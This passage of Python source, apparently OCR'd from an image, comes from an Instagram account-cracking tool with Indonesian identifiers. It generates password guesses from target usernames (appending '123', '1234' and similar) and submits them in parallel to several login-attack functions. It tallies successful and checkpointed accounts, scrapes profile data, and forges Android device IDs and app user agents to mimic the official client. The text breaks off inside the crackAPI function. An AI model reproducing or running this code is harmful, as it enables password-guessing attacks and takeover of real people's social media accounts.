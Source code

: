 								else:
									sandi=[w+'123',w,w+'1234',password.lower()]
							elif o=="3":
								if len(w)==3 or len(w)==4 or len(w)==5:
									sandi=[w,w+'123',w+'1234',w+'321',w+'12345',w+'123456',password.lower()]
								else:
									sandi=[w,w+'123',w+'1234',w+'321',w+'12345',w+'123456',password.lower()]
							elif o=="4":
								if len(w)==3 or len(w)==4 or len(w)==5:
									sandi = zx.replace(" ", "").split(",")
								else:
									sandi = zx.replace(" ", "").split(",")
							if 'satu' in method:
								adtyaxc.submit(self.crackAPI,username,sandi)			
							elif 'dua' in method:
								adtyaxc.submit(self.crackAJAX,username,sandi)
							elif 'tiga' in method:
							    adtyaxc.submit(self.crackAPIversi2,username,sandi)
							else:
								adtyaxc.submit(self.crackAPI,username,sandi)
				except:
					pass
		print('\n')
		os.popen('play-audio data/sound/message.mp3')
		prints(Panel(f" {P2}crack {R2}{len(internal)} {P2}username selesai hasil Ok : {H2}{len(success)}{P2} Hasil Cp : {K2}{len(checkpoint)}{P2} ",width=80,padding=(0,8),style=f"#FFFFFF"))
		exit()

	def APIinfo(self,user):
		try:
			x=s.get("https://i.instagram.com/api/v1/users/web_profile_info/?username=%s"%(user),headers={"user-agent":USN,"x-ig-app-id":'936619743392459'})
			x_jason=x.json()["data"]["user"]
			nama=x_jason["full_name"]
			pengikut=x_jason["edge_followed_by"]["count"]
			mengikut=x_jason["edge_follow"]["count"]
			postingan=x_jason["edge_owner_to_timeline_media"]["count"]
		except:
			nama = "-"
			pengikut = "-"
			mengikut = "-"
			postingan = "-"
		return nama,pengikut,mengikut,postingan
	
	def crackAPI(self,user,pas):
		global loop,success,checkpoint
		ses = requests.Session()
		logtemp=0
		guid = str(uuid.uuid4())
		ponid = str(uuid.uuid4())
		andro = "android-%s" % hashlib.md5(str(time.time()).encode()).hexdigest()[:16]
		ig_sig = HARIS["ig_sig"]
		verig = HARIS["IGV"]
		igver = verig.split(",")
		igv = random.choice(igver)
		gedz = HARIS1["AOREC"][random.randrange(0,277)]["aorec"]
		ven1 = gedz.split('|')[1]
		ven2 = gedz.split('|')[2]
		giu1 = HARIS["giu"]
		giu = giu1.split("||")
		ua = f'{giu[0]} {igv} {giu[1]} {ven1}; {ven2}; {giu[2]}'
		dat = HARIS["sinkz"]
		dat.update({"id": guid})
		data1 = json.dumps(dat)